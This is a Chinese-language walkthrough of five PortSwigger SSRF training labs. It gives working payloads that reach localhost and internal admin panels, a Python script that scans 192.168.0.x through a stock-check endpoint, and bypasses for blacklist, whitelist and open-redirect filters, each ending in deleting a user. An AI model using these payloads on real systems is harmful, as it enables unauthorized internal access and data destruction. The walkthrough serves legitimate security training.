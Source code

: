 # Server-side request forgery (SSRF)

## [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 
### 題目解釋
任意發 HTTP GET Request
### 解答

觀察 Stock check 的 API 發現他會去戳
```
http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

改送 
```
http%3a%2f%2flocalhost%2fadmin
```

發現就能看到 admin 介面


再送
```
http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```



## [Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

### 題目解釋
SSRF 掃 IP

### 解答

```python
import requests

cookies = {
    'session': 'bakLqRkoOwdV224pxVilyjKiDSlR2Md5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0 Waterfox/91.6.0',
    'Accept': '*/*',
    'Accept-Language': 'zh-TW,zh-HK;q=0.8,zh-CN;q=0.7,zh-SG;q=0.5,en-US;q=0.3,en;q=0.2',
    'Referer': 'https://acc01f151fe80e6ec05765910024002e.web-security-academy.net/product?productId=1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://acc01f151fe80e6ec05765910024002e.web-security-academy.net',
    'Connection': 'keep-alive',
    'Sec-Fetch-Dest': 'empty',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Site': 'same-origin',
    'TE': 'trailers',
}

for i in range(1,256):
    data = {
    'stockApi': f'http://192.168.0.{i}:8080/admin'
    }

    response = requests.post('https://acc01f151fe80e6ec05765910024002e.web-security-academy.net/product/stock', headers=headers, cookies=cookies, data=data)
    if response.status_code == 200:
        print("!!!!!!!", i, "Success")
        break
    else:
        print(i, "Fail")
# print(response.status_code)
```

刷到 214 才找到 QQ

```
http://192.168.0.214:8080/admin
```


```
http%3A%2F%2F192.168.0.214%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```


## [Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

### 題目解釋
繞 localhost， path 可能可以用大小寫來繞

### 解答

直接戳 `http://localhost/` 會噴 

```
"External stock check blocked for security reasons"
```

發現用 `http://127.0.0.2` 就可以ㄌ，但是後面打 `admin` 還是會噴

改用 `http://127.0.0.2/ADMIN` 就可以ㄌ

```
http://127.0.0.2/ADMIN/delete?username=carlos
```

## [Lab: SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass. 
### 題目解釋
用 URL 上帶帳號密碼的方法來騙 Domain

### 解答

如果我下 `http://localhost` 他會噴

```
"External stock check host must be stock.weliketoshop.net"
```

可以試著用這樣的想法

```
http://localhost:80#@stock.weliketoshop.net/
```

不過 `#` 需要 Double URL Encode，也就是改寫成 %2523

```
http://localhost:80#@stock.weliketoshop.net/
```

接下來是路徑方面的問題，測試了很久才發現可以加在最後面，加在前面卻不行，但我也不知道為什麼 QQ

```
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username%3dcarlos
```

## [Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 
### 題目解釋
尋找網頁其他地方的 Open redirect

### 解答

送出去發現他只有帶了下面這樣的參數
```
%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

如果亂輸入

```
stockApi=%2F..%2F..%2F..%2F..%2F..%index.php
```

他會噴錯

```
"Invalid external stock check url 'Malformed escape pair at index 34: http://localhost:80/../../../../..%index.php'"
```

觀察網頁原始碼會發現有 Next Product 的功能可以用

```
/product/nextProduct?currentProductId=1&path=/product?productId=2">| Next product</a>
```

所以使用

```
%2Fproduct%2FnextProduct%3Fpath%3Dhttp%3A%2F%2F192.168.0.12%3A8080/admin
```

就能看到 admin panel

```
%2Fproduct%2FnextProduct%3Fpath%3Dhttp%3A%2F%2F192.168.0.12%3A8080/admin/delete?username=carlos
```
